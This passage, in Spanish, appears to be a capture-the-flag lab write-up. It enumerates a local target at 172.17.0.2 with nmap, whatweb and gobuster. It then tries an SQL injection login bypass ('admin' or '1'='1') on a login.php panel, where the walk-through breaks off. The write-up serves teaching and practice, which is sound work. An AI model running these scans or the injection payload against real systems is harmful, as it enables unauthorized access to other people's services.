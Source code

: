 ### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted
```

**Servicios identificados:**
1. `[ 22 ]/[ TCP ]`: [ SSH ] ([ 9.6 ])
2. `[ 80 ]/[ TCP ]`: [ Apache ] ([ 2.4.58 ]) **ubuntuNoble**
---

## Enumeracion de [Servicio  Principal]
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://[IP_TARGET]
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p 80 172.17.0.2
```

Resultado:
```bash
/login.php: Possible admin folder
PHPSESSID: 
  httponly flag not set
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

**Hallazgos Relevantes:**
No reporto nada relevante

### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x sh,php,php.back,txt,html,js
```

- **Hallazgos**:
No reporto nada relevante

Tenemos un panel de inicio de sesion el cual probaremos un ataque de **SQLInjection**
```bash
username: admin' or '1'='1
password: admin' or '1'='1 # Este es el campo vulnerable
```

